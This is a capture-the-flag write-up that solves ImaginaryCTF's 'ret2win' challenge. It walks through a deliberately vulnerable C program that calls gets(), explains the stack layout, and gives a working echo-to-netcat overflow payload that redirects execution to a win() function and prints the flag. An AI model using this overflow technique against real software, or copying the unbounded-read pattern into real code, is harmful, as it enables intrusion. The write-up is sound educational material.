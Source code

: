 ```yaml
---
layout: default
title: "ret2win CTF Writeup"
---
```


# The Problem

One of the most common exploit problems presented in CTFs are "ret2win" problems.
Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and
experienced players a chance to warm. The challenge, titled "ret2win", gives the
description:

> Jumping around memory is hard. I'll give you some help so that you can pwn this!

This is accompanied by 2 attachments and a netcat command to talk to the server the challenge
is running on.

[vuln](https://imaginaryctf.org/r/W94dw#vuln)
[vuln.c](https://imaginaryctf.org/r/IDlsV#vuln.c)
`nc ret2win.chal.imaginaryctf.org 1337`

# The Source, a binary, and the Server Soon To Be Pwned

Running the binary presents the user with a prompt:

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
```

As far as ret2win's go, this one is certainly handing the answer on a silver platter.
Once the user has given the program its input, another line is presented.

```
Returning to 0x7f97cc429290...
```

This address being returned will become very useful in a bit. However, lets move on the source code.

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
  FILE *fp;
  char flag[255];
  fp = fopen("flag.txt", "r");
  fgets(flag, 255, fp);
  puts(flag);
}

char **return_address;

int main() {
  char buf[16];
  return_address = buf+24;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  puts("Welcome to ret2win!");
  puts("Right now I'm going to read in input.");
  puts("Can you overwrite the return address?");

  gets(buf);

  printf("Returning to %p...\n", *return_address);
}
```

The first thing that will catch your eye is the `int win()` function. Reading it carefully you will
see that this function opens the flag file and spits it out to the user. Great! This is what we need.
Looking at the `main()` function we see that a 16 byte buffer is allocated to the stack, the `return_address`
global variable is set to 24 bytes offset from the buffer (seemingly out of bounds). Then, the start message
we saw is displayed, a string is read into `buf`, and the address `return_address` points to is displayed.

However, there is something wrong here. The `win` function is never called. So this challenge must not be
possible right? Well, it is, but we need a bit of knowledge of how x86 uses the stack and a buffer overflow.

# The Stack Demystified

Operating systems like Linux use the stack in a predictable way. When entering a function, they save a
pointer to where they left off on the stack. This pointer is what is popped off when `return` is called
and the program must got back to whence it came. After entering a function, a pointer to the base of the
last stack frame (`ebp`) is usually saved (unless the stack isn't used in that function), and any stack allocated
variables are pushed to the end.

For instance, our main functions stack would look like below (first row is highest addresses):

||||
| --- | --- |
| 0xFFFFFFFF | ... |
| 0xFFFFFFF8 | `return_address` |
| 0xFFFFFFF0 | `ebp` |
| 0xFFFFFFE0 | `buf` |

So, since our goal is to run `win` to get our flag value, maybe instead of having main return to `return_address` we
could somehow have it return to a different address; Say the start of `win`. For this we will need one more thing: a
buffer overflow.

# Buffer Overflow

You may notice that the call to `gets` doesn't have a length parameter. That is because it is not bounds checked.
It simply continues taking in characters and writing to its buffer until input ends. Well since `buf` is right
below `ebp` and `return_address` in the stack, this means that itcould potentially overwrite those values if
we input more than 16 characters. Let's test this theory. For our input let's enter "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Returning to 0x6161616161616161...
[1]    637 segmentation fault (core dumped)  ./vuln
```

We crashed! You'll see the address we tried to while invalid is exactly what we wanted: a bunch of 'a's or 0x61 in hex
in the return address. Now we just have to carefully craft our input overwrite the `return_address` with `win`s starting address.

To get `win`s starting address we can use a linux utility called `objdump`. This program will take in a binary and
spit out its assembly code along with any symbols it can find. Running `objdump -D ./vuln` will display a lot of assembly code including...

```asm
00000000004011d6 <win>:
  4011d6:       f3 0f 1e fa             endbr64
  4011da:       55                      push   %rbp
  4011db:       48 89 e5                mov    %rsp,%rbp
  4011de:       48 81 ec 10 01 00 00    sub    $0x110,%rsp
  4011e5:       48 8d 35 1c 0e 00 00    lea    0xe1c(%rip),%rsi        # 402008 <_IO_stdin_used+0x8>
  4011ec:       48 8d 3d 17 0e 00 00    lea    0xe17(%rip),%rdi        # 40200a <_IO_stdin_used+0xa>
  4011f3:       e8 e8 fe ff ff          call   4010e0 <fopen@plt>
  4011f8:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  4011fc:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
  401200:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  401207:       be ff 00 00 00          mov    $0xff,%esi
  40120c:       48 89 c7                mov    %rax,%rdi
  40120f:       e8 9c fe ff ff          call   4010b0 <fgets@plt>
  401214:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  40121b:       48 89 c7                mov    %rax,%rdi
  40121e:       e8 6d fe ff ff          call   401090 <puts@plt>
  401223:       90                      nop
  401224:       c9                      leave
  401225:       c3                      ret
```

We have it! The address we need to jump to is `0x4011d6`. Now we can move on to our attack.

# The Exploit

To craft our payload, I'll just be using `echo`, but other
methods can also work to send non-character data. First, we will send 16 'a's to just fill up the buffer. Then, another
8 bytes of any non-zero values. Lastly, we send `0x4011d6` in little endian as a 64 bit number. When, going over netcat
it will be necessary that we also send a newline since the input buffer is still open.

```sh
❯ echo -n -e '\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xd6\x11\x40\x00\x00\x00\x00\x00\n' | nc ret2win.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
Returning to 0x4011d6...
ictf{c0ngrats_on_pwn_number_1_9b1e2f30}
```

> ictf{c0ngrats_on_pwn_number_1_9b1e2f30}

We got our flag and 100 points! If you've made it this far, I hope you learned a thing or two about how stacks and
buffer overflows work. Now get out there and pwn some more CTF's.

Happy Hacking.

